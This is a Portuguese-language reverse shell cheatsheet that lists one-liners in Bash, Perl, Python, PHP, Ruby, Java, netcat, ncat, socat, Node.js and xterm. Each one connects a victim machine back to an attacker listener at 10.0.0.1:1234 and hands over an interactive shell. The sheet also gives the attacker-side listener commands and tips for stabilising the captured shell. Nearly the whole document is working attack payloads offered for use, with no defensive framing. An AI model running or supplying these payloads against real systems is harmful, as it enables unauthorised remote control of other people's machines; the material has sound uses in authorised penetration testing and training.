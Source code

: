 # Reverse Shell Cheatsheet

## 🌐 Escutando no atacante

```bash
rlwrap nc -nvlp 1234
```

***

### 🐍 Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/10.0.0.1/1234; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/10.0.0.1/1234;cat <&5 | while read line; do $line 2>&5 >&5; done
```

***

### 💎 Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
open(STDIN,">&S");open(STDOUT,">&S");
open(STDERR,">&S");exec("/bin/sh -i");};'
```

```perl
perl -MIO -e '$p=fork;exit,if($p);
$~->fdopen($_,r),IO::Select->new($_)->can_read and exec"/bin/sh";'
```

***

### 🐍 Python

{% code overflow="wrap" fullWidth="false" %}
```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{% endcode %}

Python3 equivalente:

```python
python3 -c 'import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.0.0.1",1234));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

***

### 💻 PHP

```php
php -r '$sock=fsockopen("10.0.0.1",1234);
exec("/bin/sh -i <&3 >&3 2>&3");'
```

```php
php -r '$sock=fsockopen("10.0.0.1",1234);
$p=proc_open("/bin/sh -i", [0=>$sock, 1=>$sock, 2=>$sock], $pipes);'
```

***

### 💭 Ruby

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","1234");
while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

***

### ☕ Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/1234;
cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

***

### 🐚 Netcat (tradicional)

```bash
nc -e /bin/sh 10.0.0.1 1234
```

```bash
/bin/sh | nc 10.0.0.1 1234
```

```bash
rm -f /tmp/p; mknod /tmp/p p && nc 10.0.0.1 1234 0</tmp/p | /bin/sh >/tmp/p 2>&1
```

***

### 🆕 Netcat (Ncat do Nmap)

```bash
ncat 10.0.0.1 1234 -e /bin/bash
```

***

### 🧼 Socat

Na máquina do atacante (escutando):

```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

Na máquina vítima (conectar de volta):

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.0.1:1234
```

***

### 📦 JavaScript (Node.js)

```js
require('child_process').exec('nc 10.0.0.1 1234 -e /bin/sh')
```

***

### ⛓ Xterm

No atacante:

```bash
xhost +targetip
```

Na vítima:

```bash
xterm -display attackerip:1
```

***

### 🧪 Diagnóstico: qual shell consegui?

Se estiver com shell interativo ruim (sem autocompletar, etc), use:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Ou tente:

```bash
script /dev/null -c bash
```

***

### 🧠 Dica para tornar o shell mais estável

Depois de usar `pty.spawn`, pressione:

* `Ctrl+Z`
* No shell local: `stty raw -echo; fg`
* Depois pressione `Enter` duas vezes

